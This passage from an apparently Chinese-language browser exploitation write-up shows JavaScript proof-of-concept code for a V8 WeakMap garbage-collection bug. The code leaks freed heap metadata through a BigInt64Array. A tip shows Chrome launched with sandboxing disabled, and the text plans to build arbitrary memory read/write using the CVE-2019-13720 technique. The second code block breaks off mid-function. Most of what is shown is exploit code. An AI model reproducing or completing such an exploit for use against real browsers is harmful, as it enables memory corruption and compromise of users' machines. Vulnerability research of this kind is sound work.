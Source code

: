 ```javascript
	map5.set(hk, k7);
	map7.set(k8, map8);
	map7.set(k7, k8);
	map8.set(k8, k9);
}

async function main() {
	setUpWeakMap(map1);

	TrigerGc();

	try {
		let hiddenKey = getHiddenKey(map1, level, initKey);
		let hiddenMap = map1.get(hiddenKey);
		let k7 = hiddenMap.get(hiddenMap.get(hiddenKey)).get(hiddenKey);
		let k8 = map1.get(k7).get(k7);
		let m8 = map1.get(k7).get(k8);
		let arrbuf = map1.get(m8.get(k8));

		try {
			%DebugPrint(arrbuf);

			if (!arrbuf)
				return;
				
			let maybe_free_entry = new BigInt64Array(arrbuf, 0, 1);
			let leak_value = maybe_free_entry[0];
			if (leak_value != 0 && leak_value != undefined) {
				alert(`0x${leak_value.toString(16)}`);
			}

		} catch (e) {
			alert(`${e.lineNumber}:${e.message}`);
		}

	} catch (e) {}
}
```

---
**ℹ️NOTE**: Chrome 启用 %DebugPrint 输出：`Chrome.exe --js-flags="--allow-natives-syntax" --no-sandbox --enable-logging=stderr`

---

这样确实可以读取到堆的元信息，下一步是要修改堆的元信息，使用 [CVE-2019-13720](2022-05-26-CVE-2019-13720.md) 使用的利用技巧，构造出任意内存读写出的能力。

```javascript
async function main() {
	setUpWeakMap(map1);

	TrigerGc();

	try {
			let hiddenKey = getHiddenKey(map1, level, initKey);
			let hiddenMap = map1.get(hiddenKey);
			let k7 = hiddenMap.get(hiddenMap.get(hiddenKey)).get(hiddenKey);
			let k8 = map1.get(k7).get(k7);
			let m8 = map1.get(k7).get(k8);
			let arrbuf = map1.get(m8.get(k8));

		try{
			%DebugPrint(arrbuf);
		
```